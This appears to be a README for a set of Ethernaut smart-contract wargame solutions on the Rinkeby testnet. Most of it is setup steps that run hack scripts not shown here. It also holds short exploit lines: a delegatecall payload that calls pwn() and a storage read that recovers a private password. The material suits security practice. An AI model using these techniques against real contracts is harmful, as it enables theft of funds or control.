 # Ethernaut

## Coin Flip

Set up the `.env` file with your HTTP_ENDPOINT, PRIVATE_KEY and coin flip instance address.

```dotenv
PRIVATE_KEY="0x0000000000000000000000000000000000000000000000000000000000000000"
HTTP_ENDPOINT="https://eth-rinkeby.alchemyapi.io/v2/xxx"
COIN_FLIP_ADDR="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/coin_flip_hack.js --network rinkeby
```

## Delegation

```js
await contract.sendTransaction({data: web3.eth.abi.encodeFunctionSignature("pwn()")})
```

## Force

Set your force contract address in `.env`.

```
ForceAddr="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/force_hack.js --network rinkeby
```

references:
- https://ethereum.stackexchange.com/questions/63987/can-a-contract-with-no-payable-function-have-ether/63988#63988
- https://solidity-by-example.org/hacks/self-destruct/ 

## Vault

Get the password with below command run in console.

```
await web3.eth.getStorageAt(instance, 1, console.log)
```

You can use [etherscan](https://rinkeby.etherscan.io) to run the `unlock` function.

## King

Set your king contract address in `.env`.

```
KingAddr="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/king_hack.js --network rinkeby
```
